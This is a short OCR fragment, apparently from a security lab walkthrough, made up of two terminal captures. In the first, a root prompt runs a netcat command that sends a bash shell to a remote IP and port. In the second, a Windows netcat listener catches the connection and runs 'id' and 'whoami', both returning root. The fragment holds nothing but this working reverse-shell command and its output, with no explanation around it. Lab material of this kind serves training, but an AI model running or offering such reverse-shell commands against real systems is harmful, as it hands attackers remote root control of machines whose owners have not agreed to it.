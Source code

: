 ```
root@attackdefense:~# nc -nv 10.0.24.45 1234 -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.0.24.45:1234.

```

```
C:\Users\Administrator\Desktop>nc.exe -nvlp 1234
listening on [any] 1234 ...
connect to [10.0.24.45] from (UNKNOWN) [10.10.16.3] 51068
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root

```
